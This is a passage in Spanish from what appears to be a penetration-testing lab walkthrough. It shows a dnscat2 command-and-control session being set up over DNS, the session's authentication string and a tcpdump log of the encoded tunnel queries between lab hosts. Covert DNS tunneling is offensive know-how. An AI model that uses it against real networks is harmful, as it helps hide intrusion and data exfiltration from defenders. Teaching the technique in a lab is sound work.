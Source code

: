 ```

dnscat2> New window created: 1
Session 1 security: ENCRYPTED BUT *NOT* VALIDATED
For added security, please ensure the client displays the same string:

>> Annoy Mona Spiced Outran Stump Visas

dnscat2>
```

¡Nuestra sesión está conectada! El DNS funciona exactamente como se esperaba. Las solicitudes de PGDATABASE01 están siendo resueltas por MULTISERVER03 y terminan en FELINEAUTHORITY.

Cuando se ejecuta sin un indicador precompartido _--secret_ en cada extremo, dnscat2 imprimirá una _cadena de autenticación_ . Esto se utiliza para verificar la integridad de la conexión después de que se haya negociado el cifrado. La cadena de autenticación en este caso ("Annoy Mona Spiced Outran Stump Visas") es la misma tanto en el cliente como en el servidor, por lo que sabemos que no hay manipulación en línea. Cada vez que se realiza una conexión, la cadena de autenticación cambiará.

En nuestro *tcpdump* podemos ver todas las DNS queries y DNS responses;

```
...
07:22:14.732111 IP 192.168.50.64.51077 > 192.168.118.4.domain: 29066+ [1au] TXT? 8f150140b65c73af271ce019c1ede35d28.feline.corp. (75)
07:22:14.732538 IP 192.168.118.4.domain > 192.168.50.64.51077: 29066 1/0/0 TXT "b40d0140b6a895ada18b30ffff0866c42a" (111)
07:22:15.387435 IP 192.168.50.64.65022 > 192.168.118.4.domain: 65401+ CNAME? bbcd0158e09a60c01861eb1e1178dea7ff.feline.corp. (64)
07:22:15.388087 IP 192.168.118.4.domain > 192.168.50.64.65022: 65401 1/0/0 CNAME a2890158e06d79fd12c560ffff57240ba6.feline.corp. (124)
07:22:15.741752 IP 192.168.50.64.50500 > 192.168.118.4.domain: 6144+ [1au] CNAME? 38b20140b6a4ccb5c3017c19c29f49d0db.feline.corp. (75)
07:22:15.742436 IP 192.168.118.4.domain > 192.168.50.64.50500: 6144 1/0/0 CNAME e0630140b626a6fa2b82d8ffff0866c42a.feline.corp. (124)
07:22:16.397832 IP 192.168.50.64.50860 > 192.168.118.4.domain: 16449+ MX? 8a670158e004d2f8d4d5811e1241c3c1aa.feline.corp. (64)
07:22:16.398299 IP 192.168.118.4.domain > 192.168.50.64.50860: 16449 1/0/0 MX 385b0158e0dbec12770c9affff57240ba6.feline.corp. 10 (126)
07:22:16.751880 IP 192.168.50.64.49350 > 192.168.118.4.domain: 5272+ [1au] MX? 68fd0140b667aeb6d6d26119c3658f0cfa.feline.corp. (75)
07:22:16.752376 IP 192.168.118.4.domain > 192.168.50.64.49350: 5272 1/0/0 MX d01f0140b66950a355a6bcffff0866c42a.feline.corp. 10 (126)
07:22:17.407889 IP 192.168.50.64.50621 > 192.168.118.4.domain: 39215+ MX? cd6f0158e082e5562128b71e1353f111be.feline.corp. (64)
07:22:17.408397 IP 192.168.118.4.domain > 192.168.50.64.50621: 39215 1/0/0 MX 985d0158e00880dad6ec05ffff57240ba6.feline.corp. 10 (126)
07:22:17.762124 IP 192.168.50.64.49720 > 192.168.118.4.domain: 51139+ [1au] TXT? 49660140b6509f242f870119c47da533b7.feline.corp. (75)
07:22:17.762610 IP 192.168.118.4.domain > 192.168.50.64.49720: 51139 1/0/0 TXT "8a3d0140b6b05bb6c723aeffff0866c42a" (111)
07:22:18.417721 IP 192.168.50.64.50805 > 192.168.118.4.domain: 57236+ TXT? 3e450158e0e52d9dbf02e91e1492b9d0c5.feline.corp. (64)
07:22:18.418149 IP 192.168.118.4.domain > 192.168.50.64.50805: 57236 1/0/0 TXT "541d0158e09264101bde14ffff57240ba6" (111)
07:22:18.772152 IP 192.168.50.64.50433 > 192.168.118.4.domain: 7172+ [1au] TXT? d34f0140b6d6bd4779cb2419c56ad7d600.feline.corp. (75)
07:22:18.772847 IP 192.168.118.4.domain > 192.168.50.64.50433: 7172 1/0/0 TXT "17880140b6d23c86eaefe7ffff0866c42a" (111)
07:22:19.427556 IP 192.168.50.64.50520 > 192.168.118.4.domain: 53513+ CNAME? 8cd10158e01762c61a056c1e1537228bcc.feline.corp. (64)
07:22:19.428064 IP 192.168.118.4.domain > 192.168.50.64.50520: 53513 1/0/0 CNAME b6e10158e0a682c6c1ca43ffff57240ba6.feline.corp. (124)
07:22:19.782712 IP 192.168.50.64.50186 > 192.168.118.4.domain: 58205+ [1au] TXT? 8d5a0140b66454099e7a8119c648dffe8e.feline.corp. (75)
```